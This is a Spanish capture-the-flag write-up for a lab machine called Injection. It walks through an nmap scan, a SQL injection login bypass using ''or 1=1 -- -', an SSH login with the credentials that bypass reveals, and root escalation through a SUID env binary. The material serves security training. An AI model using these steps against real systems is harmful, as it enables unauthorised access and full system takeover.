 # Maquina Injection

Dificultad : Muy Facil

## Fase de Escaneo
---

Vamos a realizar un escaneo con nmap a los puertos, servicios y versiones de la maquina victima.

```
nmap -sVC -sS -n -Pn -p- 172.17.0.2
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 22:07 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.86 seconds
```
### Parametros de Escaneo

`-sS` - SYN Scan (Stealth Scan)
- Envian paquetes SYN sin completar el handshake TCP
- Escaneo mas rapido y discreto
- Requiere privilegios de administrador

`-sV` - Deteccion de versiones
- Detecta que servicios y versiones corren en los puertos abiertos
- Analiza las respuestas para identificar el software

`-sC` - Scripts por Defecto 
- Ejecuta los Scripts NSE (Nmap Scripting Engine) predeterminados
- Realiza pruebas de seguridad basicas y recoleccion de informacion

### Parametros de Configuracion

`-n` - Sin Resolucion DNS
- No realiza resolucion DNS inversa
- Escaneo mas rapido al sltarse las busquedas DNS

`-Pn` - No Ping
- Trata todos loshosts como activos
- Util cuando el objetivo bloquea request de ping

`-p-` - Todos los puertos
- Escanea los 65,535 puertos TCP
- Equivalentes a `-p 1-65535`

### Convinaciones Especiales

`-sVC`
- Convina de `-sV` (deteccion de versiones) y `-sC` (scripts)
- Muy completo para reconocimiento

## Indagacion Web
Revisamos el servicio corriendo en el puerto **80** a travez de un browser

![screenshot-login](./resource/login.png)

Probamos con una inyeccion basica de SQL colocando `'or 1=1 -- -` en el nombre del usuario y cualquier password.

![injection-screen](./resource/injection.png)

Logramos ingresar al sistema y nos brinda un password y un usuario que podremos usar para ingresar al otro servicio expuesto.

![success-screen](./resource/login-success.png)

## Servicio SSH puerto 22
Ahora con la informacion que obtuvimos del sitio web vamos a probar acceder al servicio ssh con el usuario `dylan` y el password con el siguiente comando

```
ssh 172.17.0.2 -l dylan
```

Tambien puede ser de la siguiente forma que es mas comun

```
ssh dylan@172.17.0.2
```

Ahora nos va a pedir el password que obtuvimos anteriormente

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@a83a137e0699:~$ 
```

Ahora podemos verificar que somos el usuario Dylan y vamos a averiguar a que grupo pertenemos y que permisos tenemos
```
cat /etc/group
```

```
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
audio:x:29:
dip:x:30:
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
mysql:x:101:
ssl-cert:x:102:
dylan:x:1000:
```

## Escalacion de Privilegios
Ahora que tenemos un panorama mas claro de los usuarios y grupos en el sistema vamos a buscar programas o binarios que tenan permisos SUID.
```
find / -perm -4000 -user root 2>/dev/null
```

```
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Ya con un poco de experiencia puedes distingir lo binarios comunes y los que son un poco raros como es el caso del binario `/usr/bin/env` porque tiene permisos elevados en el sistema siendo un binario de enviroment
```
cd /usr/bin && ./env /bin/sh -p
```

Y ya tendremos acceso al sistema como root 

```
# whoami
root
```

# Maquina Pwneada